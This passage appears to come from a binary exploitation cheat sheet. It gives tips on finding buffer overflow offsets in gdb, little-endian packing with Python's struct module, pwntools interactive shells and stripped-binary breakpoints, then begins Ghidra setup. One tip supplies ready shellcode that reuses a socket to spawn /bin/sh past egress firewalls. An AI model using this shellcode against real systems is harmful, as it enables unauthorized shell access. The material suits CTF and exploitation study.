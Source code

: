 * we can either find the offset of the ESP/RSP (stack pointer) which is supposed to be filled with the pattern we generated. Execute the below command in gdb

```
pattern offset 'pattern'
```

You may need to enter the first three chars (shown at the base pointer `EBP/RBP`)of the pattern and not all of it. This will give you the offset. **Second method** This method relies on finding the memory address of the start of your input. Your input is usually stored in a variable defined in the code so you have to find the memory address of that variable. Next hit the segmentation fault and find the address of `RIP/EIP` and do a hex subtraction of the two addresses will give you the offset.

**TIP-TWO**

Always use \[struct] module from python to evaluate expressions according to the little endian. An example is below to evaluate \[0x80002ff0] in little endian. This is becauase values are written into memory in reverse byte order

```python
python -c 'from struct import pack; pack("<L",0x80002ff0)' 
Output : \xf0\x2f\x00\x80
```

**TIP-Three**

Use \[r.interactive()] at the end of every exploit script you create incase you didn't receive a shell. \[r.interactive()] returns control in the terminal.

**TIP-Four**

If you experience problems while you are trying to catch the shell after exploiting buffer overflow then it likely means firewall is preventing egress connection from the target machine to yours. Change your shell code payload to the one below

```
shellcode[]=
"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\xcd\x80";
```

Source \[https://www.exploit-db.com/exploits/34060]

**TIP-Five**

With a stripped binary, to set a breakpoint at the main function first run the program in the debugger (gdb) then abort execution with `CTRL+C` to view the address of the main function. You can then use it to set a breakpoint \`b \*0x..

#### Tools and their installation

**Ghidra**

Making sure Java is installed

```
sudo apt update
sudo apt install default-jre 
sudo apt install default-jdk
```
